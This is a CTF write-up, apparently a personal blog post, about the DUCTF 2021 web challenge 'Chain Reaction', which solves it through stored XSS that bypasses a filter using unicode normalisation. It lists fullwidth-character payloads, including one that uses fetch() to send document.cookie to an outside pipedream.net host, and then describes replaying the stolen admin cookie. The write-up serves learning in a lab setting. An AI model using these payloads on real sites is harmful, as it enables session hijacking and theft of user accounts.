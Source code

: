 ```yaml
---
title: 'DUCTF{Writeup}'
categories: ['Hacking', 'Binary Exploitation', 'Web']
tags: ['hacking', 'pentesting', 'Exploit Development', 'CTF']
date: '2021-09-29'
type: 'post'
weight: 400
keywords: 'hacking pwntools'
toc: 'true'
---
```


As always DUCTF was a really good CTF with plenty of variety for beginners to the more experienced. I solved a good number of the web and pwn challenges but doing the writeup a bit later means I can't really provide a authentic thought process. Instead im just writing up my favourite challenge which I also have the best notes for.

## Web

### Chain Reaction

This was my favourite challenge from the CTF in the sense that I learnt the most from it. The challenge fell under the **web** category and was ladled 'easy'. The reasoning for which I imagine comes from the series of hints that are available in the challenge.

Initially when we first navigate to the site at `https://web-chainreaction-a4b5ae3b.chal-2021.duc.tf/home?terms=accepted` we get a page like the following.

![](https://i.imgur.com/TRupGR0.png)

Immediately when seeing the cards displayed im thinking about some kind of stored xss vector. As always I start by checking out various places like:

-   `/robots.txt` - which 404s
-   Cookies - have a session cookie
-   source - nothing much

Which leads to the next natural step, make an account. The register page is nothing special but does include a little snippet: 'Username (Cannot contain <, > characters ...', confirming my suspicion about XSS.

![](https://i.imgur.com/JlpdQmU.png)

After registering an account we are asked to login which leads to a page.

![](https://i.imgur.com/8jYnM2M.png)

Which points us to a developer page with a few really useful tidbits.

![](https://i.imgur.com/RTtByJ0.png)

If we navigate to `/admin` we get a not allowed message and are redirected to `/login` but if we go to `/devchat` we see a page like the following.

![](https://i.imgur.com/wUrYKMB.png)

Of primary intrest is this comment about normalising unicode characters.

![](https://i.imgur.com/bY5vCxU.png)

If we do some reading online we might come up with the following rough understanding of normalisation:

> TODO

```javascript
＜p/＞＜img onload="alert(document.cookie)"＞

＜p/＞＜h1＞TEST

＜img onload="console.log(1)"＞

＜p/＞＜h1＞TEST＜/h1＞

＜p/＞＜h1 onload=""＞TEST＜/h1＞


＜p/＞＜h1 onpointerover=""＞TEST＜/h1＞


＜p/＞＜img on="console.log(1)"＞＜h1＞TEST＜/h1＞


＜/p＞＜img src="x" onⅇrror="console.log(1)"/＞


＜/p＞＜img src="x" onⅇrror="fetch('https://enm6tgatobw64qw.m.pipedream.net?cook='+document.cookie)"/＞
```

![](https://i.imgur.com/jqxZUkV.png)

![](https://i.imgur.com/rTtqdt3.png)

Then by simply adding a new session cookie `admin-cookie` equal to the the stolen static admin session cookie we can hit `/admin` and collect the flag.

> DUCTF{\_un1c0de_bypass_x55_ftw!}

## Other Challenges :: TODO
